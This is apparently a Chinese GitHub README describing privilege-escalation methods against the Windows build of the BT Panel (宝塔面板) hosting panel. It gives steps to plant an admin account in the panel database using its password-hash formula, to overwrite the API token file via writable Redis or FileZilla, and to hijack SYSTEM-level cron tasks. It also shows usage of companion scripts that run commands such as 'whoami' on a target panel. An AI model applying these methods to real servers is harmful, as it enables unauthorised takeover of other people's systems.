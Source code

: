 # 宝塔面板Windows提权方法

本项目整理一些宝塔特性，可以在无漏洞的情况下利用这些特性来增加提权的机会。


Table of Contents
=================

   * [宝塔面板Windows提权方法](#宝塔面板windows提权方法)
      * [写数据库提权](#写数据库提权)
      * [API提权](#api提权)
      * [计划任务提权](#计划任务提权)
   * [自动化测试](#自动化测试)



## 写数据库提权

宝塔面板在2008安装的时候默认www用户是可以对宝塔面板的数据库有完全控制权限的：

```bash
powershell -Command "get-acl C:\BtSoft\panel\data\default.db | format-list"
```

![](imgs/01.png)

对于这种情况可以直接往数据库写一个面板的账号直接获取到面板权限，而在2016安装默认是User权限可读不可写

![](imgs/02.png)

这种情况可以从里面读取一些敏感信息，比如mysql的root密码，而一般这个配置的不会只有这个文件可读，可以使用其他方法。



盐： `[A-Za-z0-9]{10}`

密码： `md5(md5(md5(password) + '_bt.cn') + salt)`

可以直接使用`bt_panel_script.py`，脚本会自动新建一个账号。



## API提权

宝塔面板支持API操作的，token在`C:\BtSoft\panel\config\api.json`，用这个方法提权还可以无视入口校验，比如有一个**未授权访问的redis是system权限**，就可以直接往这个文件覆盖token直接接管面板，或是利用FileZilla(windows面板默认ftp软件就是FileZilla + 空密码)新建一个C盘权限的账号，也可以去修改那个文件来提权。



API Token: `md5(string)`

api.json
```json
{"open": true, "token": "API Token", "limit_addr": ["你的IP"]}
```

请求时加上(`multipart/form-data`)：

```
request_token = md5(timestamp + token)
request_time = timestamp
```

可以直接使用`bt_panel_api.py`，脚本会自动使用计划任务运行命令，如果面板原本就有配置好API了，并且IP限制127.0.0.1，那么就可以直接端口转发出来直接用脚本提权。





## 计划任务提权

基本上场景同API提权，可以去修改计划任务文件(比如网站备份)，默认是在凌晨1：30执行，权限也是system。



路径： `C:/BtSoft/cron/`

有些面板API会无法登陆，就只能利用计划任务来提权了，缺点是路径不固定，且执行时间也不固定。



# 自动化测试

```bash
python3 .\bt_panel_script.py
```

使用此脚本可以全自动获取宝塔相关信息，python可以直接用宝塔的，不用担心没环境。

![](imgs/03.png)

```
python3 .\bt_panel_api.py -g
```

这个脚本可以生成api示例，把生成的json替换到指定文件后就能提权。

![](imgs/04.png)

```
python3 .\bt_panel_api.py -u "http://192.168.101.5:8888/" -t "085bd64a698cf601ae472425656b2346" -c whoami
```

![](imgs/05.png)
